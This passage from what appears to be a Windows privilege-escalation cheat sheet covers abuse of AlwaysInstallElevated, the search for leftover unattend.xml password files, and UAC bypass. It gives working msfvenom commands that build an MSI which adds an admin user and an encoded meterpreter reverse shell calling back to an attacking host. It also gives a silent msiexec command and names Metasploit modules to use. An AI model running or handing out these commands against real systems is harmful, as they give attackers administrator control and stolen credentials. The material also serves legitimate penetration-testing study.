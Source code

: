 If AlwaysInstallElevated is enabled in the registry entries you can create an installer payload with `msfvenom` \(again assuming there is no antivirus\):

```text
msfvenom -p windows/adduser USER=admin PASS=password -f msi –o filename.msi
```

Generate a payload with a reverse shell:

```text
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f msi -o filename.msi
```

Then use the following command to execute the msi installer file:

```text
msiexec /quiet /qn /i C:\Users\filename.msi
```

A summary of these flags:

* `/quiet` will bypass User Account Control \(UAC\)
* `/qn` specifies not to use a GUI
* `/i` is to perform a regular installation of the package

For the lazy, here's a Metasploit module: `exploit/windows/local/always_install_elevated`

## Unattended Installs

Unattended Installs allows administrators to deploy Windows in a hands-off way. However, if they don't clean up after this process, an XML file called Unattend is left on the local system, full of configuration settings and possibly local account configurations \(e.g. Administrators\).

Unattend files are often found in these folders:

```text
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
```

Common filenames:

```text
unattend.xml
sysprep.xml
sysprep.inf
```

Passwords in these files may be base64 encoded, [decode them here](https://gchq.github.io/CyberChef/) or in [Burp Decoder](http://www.hackingarticles.in/burpsuite-encoder-decoder-tutorial/).

And if you're lazy, a Metasploit module: `post/windows/gather/enum_unattend`

## BypassUAC Metasploit module

If you have a meterpreter shell and `getsystem` isn't working, you can try this method, which uses the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.
